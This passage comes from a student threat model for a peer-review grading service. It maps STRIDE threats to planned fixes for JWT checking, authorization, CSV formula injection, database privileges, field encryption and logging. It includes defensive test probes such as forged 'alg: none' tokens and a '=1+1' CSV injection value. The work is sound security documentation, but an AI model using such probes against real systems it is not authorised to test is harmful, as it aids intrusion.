| T-36 | T | DS2 | Mock reference data (roles, members) is editable by anyone with repo write access and is re-seeded `ON CONFLICT DO NOTHING` | – | L | M | Low | M-19 |
| T-37 | I | DS2 | Mock users include names and e-mails; faculty names appear in `reviewer_display` | – | L | L | Low | M-13 |
| T-38 | T | DS3 | Logs are local stdout with no integrity or retention | – | L | L | Low | M-16 |
| T-39 | I | DS3, F6 | `console.error(err)` writes full PostgreSQL error details, including key values | V-09 | M | L | Low | M-09, M-16 |
| T-40 | D | DS3, F6 | Repeated 500s flood logs | V-09 | M | L | Low | M-17 |
| T-41 | T | DS4, F7 | Host `.env` modified to point the app at another database | – | L | H | Medium | M-21 |
| T-42 | I | DS4, F7 | `DATABASE_URL` with password visible via `docker inspect` / process environment | – | M | H | High | M-11, M-21 |
| T-43 | I | F1, F2 | Grades and comments in cleartext HTTP if exposed beyond localhost | – | L | H | Medium | M-14 |
| T-44 | T, I | F4 | SQL traffic on `prg-net` without TLS; any container added to the network can sniff it | – | L | H | Medium | M-14 |
| T-45 | T | F9 | Downloaded report can be edited and passed off as official; no integrity marker | – | L | M | Low | M-20 |
| T-46 | I | F9 | Reports with comments end up on personal laptops and e-mail | V-04 | M | M | Medium | M-04, M-13 |

## 7. Proposed mitigations

Grouped by mechanism. Each item says what will be built in PA3, where it goes, and how it will be verified. The PA3 mock token issuer (`schin8/cs763-mock-token-issuer`, release v1.0.0, built by the facilitator with AI assistance (Claude) and reviewed by him) will provide keys, the JWKS endpoint and the valid/expired/wrong-audience/wrong-key test tokens.

| ID | Mitigation | Implementation plan (this codebase) | Verification | Closes |
|---|---|---|---|---|
| M-01 | JWT authentication middleware | New `src/auth/jwt.ts` mounted before `evaluationsRouter` in `src/app.ts:47`. Fetch JWKS from the mock issuer; `algorithms: ["RS256", "ES256"]` (explicit allowlist); require and check `exp`, `iss`, `aud` from env vars `JWT_ISSUER`, `JWT_AUDIENCE`, `JWKS_URL`; 401 on any failure. Leave `/health`, `/api/v1` public | Integration tests with the issuer's valid, expired, wrong-audience and wrong-key tokens; hand-crafted `alg: none` and HS256 tokens must get 401 | V-01; T-01, T-03, T-05, T-26 |
| M-02 | Row-level authorization on reviews | `assertCanModifyReview(user, review)`: update = author; delete = author or course faculty; read = section 2.1. Add `WHERE reviewer_id = $user` to update/delete for authors. Lives in `src/services/reviews.ts:204-237` | Tests: student B cannot PUT/DELETE student A's review (403); faculty of another course gets 403 | V-02; T-20, T-22 |
| M-03 | Identity and role from claims only | Remove `reviewer_id`, `reviewer_role`, `created_by` from request schemas; set them from `req.user` (`sub`, `role` claim, verified against `users.role`) | Test: body `reviewer_role: faculty_instructor` from a student token is rejected (400) or ignored | V-03; T-01, T-03, T-16, T-24 |
| M-04 | Function-level authorization | `requireRole("faculty_instructor")` on rubric writes and `/reports`; scope check that the faculty user teaches the course/lab (mock enrollment data) | Tests per row of the matrix in 2.1 | V-04; T-13, T-14, T-17, T-26, T-46 |
| M-05 | Input validation on all write endpoints | `zod` schemas for rubric and review bodies (types, lengths, unknown keys rejected). Business validation: every score finite and `0 ≤ s ≤ max_points`; criteria belong to the governing rubric; each leaf scored once. DB backstop: `CHECK (score >= 0)`, `CHECK (weight > 0)` | Unit tests for each rule; integration test sends `score: 1000`, `-5`, `"abc"`, foreign `criterion_id` → 400 | V-05; T-19, T-23 |
| M-06 | One review per reviewer, no self-review | `ALTER TABLE reviews ADD CONSTRAINT reviews_one_per_reviewer UNIQUE (project_id, reviewer_id)`; check `project_members` before insert → 403 | Second review from the same token → 409; member review → 403 | V-06; T-04, T-21 |
| M-07 | Atomic check-and-act | Move `assertNotInUse` inside the transaction with `SELECT … FROM rubrics WHERE id = $1 FOR UPDATE`; in `createReview` read the binding with `FOR SHARE` in the same transaction as the insert. Optionally a trigger rejecting `UPDATE` on rubrics that have reviews | Concurrency test: parallel PUT rubric + POST review leaves either a 409 or an unchanged rubric, never both changes | V-07; T-15 |
| M-08 | CSV formula neutralization | In `csvCell` (`src/services/aggregation.ts:308-312`): if the string starts with `=`, `+`, `-`, `@`, `\t` or `\r`, prefix `'`; then quote as today. This covers stored values and the echoed `course_id`/`lab_id` (which should also be validated against known ids, SR-12). Add `X-Content-Type-Options: nosniff` to all responses as defense in depth for SonarQube SQ-01 | Unit test: `=1+1` exports as `'=1+1`; integration test: `/reports?lab_id==1+1` header line contains `'=1+1`; SonarQube S5131 no longer raised | V-08, SQ-01; T-25, T-28 |
| M-09 | Safe error handling | Error handler: honour `err.status` for 4xx from the JSON parser; map PG codes `23505` → 409, `23503`/`22P02` → 400; everything else → `500 {"error":"Internal error","correlation_id":…}`; log details server-side only | Tests: malformed JSON → 400; duplicate key → 409; no SQL text in any response | V-09; T-11, T-23, T-39 |
| M-10 | Resource limits | Lower JSON limit to 100 kB; criteria depth ≤ 4 and count ≤ 50 (validated before insert); `scores` length ≤ number of leaves; `limit`/`offset` pagination on list routes and `/reports` | Tests at and above each limit | V-10; T-12, T-18, T-27 |
| M-11 | Least-privilege database access | `db/init/01-roles.sql`: `prg_migrator` owns the schema; `prg_app` gets only `SELECT, INSERT, UPDATE, DELETE` on service tables and `SELECT` on reference tables; app stops running DDL at start (separate `npm run migrate` step) | `\du` shows `prg_app` is not superuser; app works; `DROP TABLE` as `prg_app` fails | V-11; T-29, T-31, T-32, T-42 |
| M-12 | Application-layer encryption of the sensitive field | `src/crypto/fieldCrypto.ts` with `node:crypto` AES-256-GCM, random 12-byte IV per value, stored as `iv:tag:ciphertext`; 32-byte key from `FIELD_ENCRYPTION_KEY` env var (in `.env`, never committed); applied to the designated field (see section 8) | Unit test round-trip; DB row shows ciphertext; missing key → app refuses to start | V-12; T-33 |
| M-13 | Stronger peer anonymity | Never return peer `reviewer_id`; hide the peer block until ≥ 3 peer reviews; return peer timestamps rounded to the day | Tests on `/summary` and `/reviews` output | T-22, T-37, T-46 |
| M-14 | Transport security | TLS-terminating reverse proxy if the service is exposed beyond localhost; `sslmode=require` for any non-local database | Configuration review | T-10, T-43, T-44 |
| M-15 | Audit trail | `audit_log(id, actor_id, action, object_type, object_id, at, details_hash)` written in the same transaction as each rubric/review change; `created_by`/`updated_by` columns on `reviews`; app role has `INSERT` only on `audit_log` | Every write in the integration tests produces exactly one audit row | T-02, T-04, T-06, T-16, T-32, T-35 |
| M-16 | Request logging | Structured log line per request (method, route template, status, latency, user id, correlation id); no bodies, comments or tokens | Inspect logs during tests | T-06, T-38, T-39 |
| M-17 | Rate limiting | Per-user/IP limits on `POST`/`PUT`/`DELETE` and `/reports` (e.g. 30/min writes, 5/min reports) | Test 429 after the limit | T-12, T-27, T-40 |
| M-18 | Timeouts and pool hygiene | `statement_timeout = 5s` on the app role; Express request timeout; keep pool max at 10 | Long query test gets cancelled | T-27, T-30, T-34 |
| M-19 | Reference data integrity | Treat `src/mock/data.ts` as code (review required); seed only on first run | Code review | T-36 |
| M-20 | Report integrity marker | Include generation time, requesting faculty id and a SHA-256 of the body in the report header | Manual check | T-45 |
| M-21 | Secrets and CI hardening | Pin GitHub Actions to commit SHAs; keep secrets in Actions secrets / `.env` only; restrict host access to `.env` (`chmod 600`) | Workflow review | T-08, T-41, T-42 |
| M-22 | Base image hygiene | Rebuild on the latest patched `node:22-alpine`; delete `/usr/local/lib/node_modules/npm`, `npm` and `npx` in the runtime stage (or use a distroless Node image) | Trivy image scan shows TV-01…TV-24 gone | TV-01…TV-24 |

### 7.1 Traceability: every finding has a mitigation

| Finding | V-01 | V-02 | V-03 | V-04 | V-05 | V-06 | V-07 | V-08 | V-09 | V-10 | V-11 | V-12 | TV-01…24 |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| Mitigation | M-01 | M-02 | M-03 | M-04 | M-05 | M-06 | M-07 | M-08 | M-09 | M-10 | M-11 | M-12 | M-22 |

Every threat T-01…T-46 in section 6.3 lists at least one mitigation in its last column.

### 7.2 Suggested STRIDE threats for the PA3 remediation scope

PA3 requires all confirmed CWEs **plus exactly 3 STRIDE threats**, each with a one-line risk rationale. The CWE fixes above already cover the spoofing, tampering and elevation threats tied to V-01…V-12, so the three below add protection the CWE list does not. **This is a suggestion; the choice is the student's.**

| Threat | Mitigation | One-line risk rationale |
|---|---|---|
| T-06 Repudiation — no audit trail of grade changes | M-15 + M-16 | Grade disputes are common and, without an actor-stamped history, a changed grade cannot be traced or reversed. |
| T-12 Denial of service — no rate limiting | M-17 | Review submission is deadline-driven, so a short flood right before a deadline does maximum damage at minimum cost. |
| T-22 Information disclosure — peer de-anonymization from small groups and timestamps | M-13 | Anonymity is a stated functional requirement, and with two or three peers per project the averages and timestamps alone can reveal who wrote what. |

## 8. Assumptions and open questions

1. **Designated sensitive field.** PA3 requires encrypting "the designated sensitive field (defined per domain)", but the copy of `ProjectPortalDomainServices.pdf` in the course folder does not name it for Domain 3. The most likely candidates are the peer reviewer identity and the free-text review comments/feedback. **Confirm with the facilitator** before PA3.
2. **Deployment.** The analysis assumes the PA2 compose stack (`127.0.0.1:3000`, database on an internal bridge network). Exposure beyond localhost raises T-10, T-43 and T-44 to High.
3. **Identity source.** Users, courses, labs and enrollment come from static mock data (`src/mock/data.ts`), as the project rules require. Token claims in PA3 must reference the same user ids.
4. **Validation level.** Findings were confirmed by code review and, where noted, by the passing CI integration tests. Live exploit proofs and DAST are PA4 deliverables.
5. **SonarQube Cloud.** Until 2026-11-17 SonarCloud analyzed `main` as a short-lived branch against a deleted PA1 branch, so its results were inconclusive. After the branch fix it reports one finding (SQ-01, reflected XSS), triaged as a false positive for XSS whose data flow is the reflected CSV injection variant of V-08; see `sast-triage-report.md`, section 2.2. This is reflected in AC-07, AT-4 and M-08 above.
